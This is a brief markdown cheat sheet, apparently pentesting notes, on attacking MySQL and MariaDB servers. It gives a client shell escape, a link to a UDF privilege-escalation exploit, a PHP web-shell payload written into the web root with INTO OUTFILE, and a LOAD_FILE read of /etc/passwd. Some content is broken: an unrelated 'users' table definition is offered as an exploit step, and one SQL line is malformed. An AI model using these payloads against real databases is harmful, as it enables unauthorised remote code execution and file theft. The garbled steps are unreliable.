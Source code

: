 # MySQL Hacking

## Login
For mysql including Mariadb:
```bash
mysql -u $username -p $password -h $HOST
mysql -u root -h $HOST

mysql>\! sh # run a sh shell from mysql!
```

## Misconfigurations

[Raptor.c](https://github.com/1N3/PrivEsc/blob/master/mysql/raptor_udf.c)

## Exploit 

The basic methodology for exploiting MySQL:
-   Access the remote database using administrator credentials
-   Create a new table in the main database
-   Inject PHP code to gain command execution
	    Example code: `<?php $cmd=$_GET["cmd"];system($cmd);?>`  
-   Drop table contents onto a file the user can access  
-   Execute and obtain RCE on the host.


Either 

```sql
CREATE TABLE users(
id INT AUTO_INCREMENT,
   first_name VARCHAR(100),
   last_name VARCHAR(100),
   email VARCHAR(50),
   password VARCHAR(20),
   location VARCHAR(100),
   dept VARCHAR(100),
   is_admin TINYINT(1),
   register_date DATETIME,
   PRIMARY KEY(id)
);
```

Or use `SELECT * LOAD_FILE('/etc/passwd')`

  `select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';`